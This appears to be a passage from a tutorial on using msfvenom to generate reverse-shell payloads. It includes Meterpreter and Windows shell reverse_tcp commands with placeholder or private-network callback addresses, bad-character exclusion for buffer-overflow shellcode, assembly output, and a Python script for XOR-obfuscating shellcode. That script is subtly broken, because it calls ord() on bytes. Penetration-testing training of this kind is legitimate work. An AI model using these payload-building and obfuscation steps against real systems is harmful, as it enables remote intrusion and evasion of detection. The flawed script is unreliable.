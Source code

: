 ```
msfvenom -p linux/x64/meterpreter/reverse_tcp -n 16 -f elf > nop_sled_shell.elf
```

When injecting shellcode into vulnerable applications, certain characters (e.g., null bytes `\x00`) may cause issues with the payload execution. **msfvenom** allows you to specify "bad characters" to exclude from the generated shellcode.

```
msfvenom -p windows/shell_reverse_tcp LHOST=<Your IP> LPORT=<Your Port> -b '\x00\x0a\x0d' -f c
```

- The `-b '\x00\x0a\x0d'` option tells **msfvenom** to avoid using the null byte (`\x00`), newline (`\x0a`), and carriage return (`\x0d`) in the generated shellcode.
- This is especially important when dealing with buffer overflows, where these characters may interfere with the shellcode's execution or trigger premature termination.
- The `-f c` option outputs the resulting shellcode in C format, ready for embedding in an exploit.

You can use **msfvenom** to generate shellcode in a format compatible with assembly, particularly useful when writing exploits in assembly language.

```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<Your IP> LPORT=<Your Port> -f asm
```

- The `-f asm` option outputs the payload in assembly format, which can be directly used in assembly programs or during manual shellcode crafting.
- This is useful for exploit developers who are writing custom shellcode in assembly language and need to inject it into vulnerable applications.

We can use a simple XOR encoding scheme to obfuscate the shellcode. Below is a Python script to XOR encrypt shellcode:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.x.x LPORT=4444 -f c
```
```
# xor.py - Encrypt shellcode with XOR
import sys
from argparse import ArgumentParser

def xor_shellcode(key, shellcode):
    return ''.join([chr(ord(c) ^ key) for c in shellcode])

if __name__ == "__main__":
    parser = ArgumentParser()
    parser.add_argument("-i", "--input", required=True, help="Input shellcode file")
    parser.add_argument("-o", "--output", required=True, help="Output encrypted file")
    parser.add_argument("-k", "--key", type=int, default=0xAA, help="XOR key")
    args = parser.parse_args()

    with open(args.input, 'rb') as infile:
        shellcode = infile.read()

    encrypted_shellcode = xor_shellcode(args.key, shellcode)
    with open(args.output, 'wb') as outfile:
        outfile.write(encrypted_shellcode)
```
